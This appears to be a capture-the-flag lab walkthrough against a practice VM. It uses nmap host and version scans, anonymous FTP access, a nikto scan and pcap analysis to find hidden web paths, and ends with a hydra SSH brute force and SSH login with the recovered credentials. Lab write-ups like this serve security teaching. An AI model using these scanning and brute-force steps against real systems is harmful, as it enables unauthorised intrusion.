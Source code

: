 # Pingsweep

```
nmap -sn 192.168.114.1-254
```
```
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.134
Host is up (-0.088s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
```

# Port Enumeration
```
nmap -sV 192.168.114.134
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```
#### FTP Enumeration
```
searchsploit vsftpd  - Doesn't seem to show any major vulnerabilities.
```
We try to log through using anonymous ftp
```
ftp 192.168.114.134
user:anonymous@anything
pass:
```
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
get lol.pcap  - we find a file that can be used with WireShark.
```

#### HTTP Enumeration

Scanning Using nikto
```
nikto -h 192.168.114.134
```
```
+ Entry '/secret/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
```
/secret/ leads to a troll image.


#### WireShark

Openning the lol.pcap > Follow TCP Stream
We find a file
```
200 Switching to Binary mode.
PORT 10,0,0,12,202,172
200 PORT command successful. Consider using PASV.
RETR secret_stuff.txt
150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
226 Transfer complete.
```
Since we captured the data transfer.
```
Frame 40: 213 bytes on wire (1704 bits), 213 bytes captured (1704 bits) on interface 0
Ethernet II, Src: Vmware_20:70:99 (00:0c:29:20:70:99), Dst: Vmware_5d:04:92 (00:0c:29:5d:04:92)
Internet Protocol Version 4, Src: 10.0.0.6, Dst: 10.0.0.12
Transmission Control Protocol, Src Port: 20, Dst Port: 51884, Seq: 1, Ack: 1, Len: 147
FTP Data (Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n\nSucks, you were so close... gotta TRY HARDER!\n)
```

IF YOU DO NOT WANT TO USE WIRESHARK
```
strings lol.pcap  - also works.
```

#### More HTTP Enumeration

Going back to the webserver
```
http://192.168.114.134/sup3rs3cr3tdirlol/
We find a new directory and a new bin file.
roflmao.bin
```
Trying to find any strings that can help us
```
strings roflmao.bin
```
```
GLIBC_2.0
PTRh
[^_]
Find address 0x0856BF to proceed   <- this is of interest.
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
```
Trying this everywhere leads us to.
```
http://192.168.114.134/0x0856BF/
```

# Exploit 

We seem to have found possible usernames and passwords.
According to the folder password is located in Pass.txt
We attempt to brute force using hydra
```
hydra -L username.txt -P Pass.txt 192.168.114.134 ssh -vv
```
Can't seem to find a match.
We try to include the Pass.txt name in the file and try again.
```
[22][ssh] host: 192.168.114.134   login: overflow   password: Pass.txt
```
```
ssh overflow@192.168.114.134
Password: Pass.txt
```





